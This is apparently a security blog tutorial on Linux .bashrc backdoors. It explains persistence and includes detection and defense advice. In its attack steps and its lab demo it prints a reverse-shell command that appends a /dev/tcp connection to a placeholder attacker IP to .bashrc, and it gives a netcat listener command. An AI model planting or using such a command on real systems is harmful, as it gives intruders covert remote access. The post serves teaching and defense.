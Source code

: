 ```yaml
---
title : "Linux Backdoors Part-III"
date : 2025-08-17
layout : post
categories : [BACKDOOR]
tags : [BASHRC, BACKDOOR, PERSISTENCE, LINUX]
author : jana
---
```


# Bashrc Backdoors: Persistence Through a Hidden Terminal Trap

Hey cybersecurity folks! 👋  

Welcome back to another episode of **“What did the attacker leave behind?”** 🎭  
Today, we’re exploring a stealthy persistence trick attackers love to hide in plain sight: **the `.bashrc` backdoor**.

Why is it dangerous? Because it blends in with everyday shell configuration files — the ones users *trust* but rarely inspect.  

Whether you’re sharpening red team skills, brushing up on blue team defenses, or just geeking out over elegant persistence, this one’s for you. 🚀  

---

## 🔍 What Is a Bashrc Backdoor?

A **bashrc backdoor** is a persistence method that abuses the `.bashrc` file — the script Bash runs every time a new **interactive shell** is launched.  

Attackers append a reverse shell payload to it, so whenever the user opens a terminal, the system silently connects back to the attacker.  

It’s like leaving a bug in someone’s coffee cup: subtle, invisible, and only activated when they take a sip. ☕🐛  

---

## 🧠 Understanding `.bashrc`

- Location: `~/.bashrc` (per user)  
- Executes: whenever a **non-login interactive shell** starts  
- Usual purpose: aliases, prompt tweaks, environment variables  
- Hidden danger: it can run **any shell command**, even malicious ones  

That flexibility makes `.bashrc` a perfect persistence target.  

---

## 🧰 The Attack: Step-by-Step

Here’s how an attacker might weaponize `.bashrc`:  

### ✅ Step 1: Initial Access  
The attacker first compromises the system (via exploit, weak creds, phishing, etc.).  

### ✅ Step 2: Payload Injection  
They append a reverse shell payload to the target user’s `.bashrc`:  

```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /home/alice/.bashrc
```

Every time **Alice** opens a terminal, the reverse shell fires.  

### ✅ Step 3: Listener Setup  
On the attacker’s machine:  

```bash
nc -lvnp 4444
```

Netcat listens for incoming connections.  

### ✅ Step 4: Trigger  
Hours later, Alice logs in and opens a shell.  

💥 Boom — instant reverse shell connection for the attacker.  

---

## 🔁 Attack Flow Recap

| Step              | Action                                           |
|-------------------|-------------------------------------------------|
| 🎯 Initial Access | Attacker compromises target                     |
| 🐚 Inject Shell   | Reverse shell added to `.bashrc`                |
| 🎧 Listener       | Netcat listening on attacker’s machine           |
| 🔓 Trigger        | User opens terminal, payload executes           |
| 🧠 Access Regained| Attacker reconnects as that user                 |

---

## 🕵️ Why It’s Sneaky  

✅ Blends into a legitimate config file  
✅ Doesn’t create new files or binaries  
✅ Triggers only on user interaction  
✅ Often overlooked during forensics  

For sysadmins or developers who open terminals all day, this trick is especially effective.  

---

## 🧪 Lab Example (Safe Demo)

**On attacker machine:**  
```bash
nc -lvnp 4444
```

**On target machine:**  
```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> ~/.bashrc
bash
```

➡️ Reverse shell pops to the attacker as soon as the victim starts Bash.  

---

## ⚠️ Limitations  

- ❌ Only works when the user opens a shell  
- ❌ Easy to spot if `.bashrc` is inspected  
- ❌ Breaks if user switches shells (e.g., zsh, fish)  
- ❌ Detected by file integrity monitoring tools  

---

## 🛡️ Defense Strategies  

- **Audit Config Files:**  
  Regularly check `.bashrc`, `.profile`, `.bash_profile` for strange entries  
  Use integrity monitoring tools (AIDE, Tripwire, etc.)  

- **Monitor Network Traffic:**  
  Flag unusual outbound connections, especially from `bash` or `nc` processes  

- **User Awareness:**  
  Train users to report slow logins, weird prompts, or unexplained network activity  

---

## 🧠 Final Thoughts  

The `.bashrc` backdoor is simple, elegant, and effective. It requires no malware, no rootkits, just a clever abuse of Linux behavior.  

- For red teamers: a useful persistence trick.  
- For defenders: a reminder that **configuration files are attack surfaces too**.  
- For learners: an eye-opening way to understand subtle persistence methods.  

---

⚠️ **Disclaimer:** This post is for **educational purposes only**. Do not test these techniques on systems you do not own or have explicit permission to assess.  

Stay curious. Stay ethical. And always check your `.bashrc`. 😉  
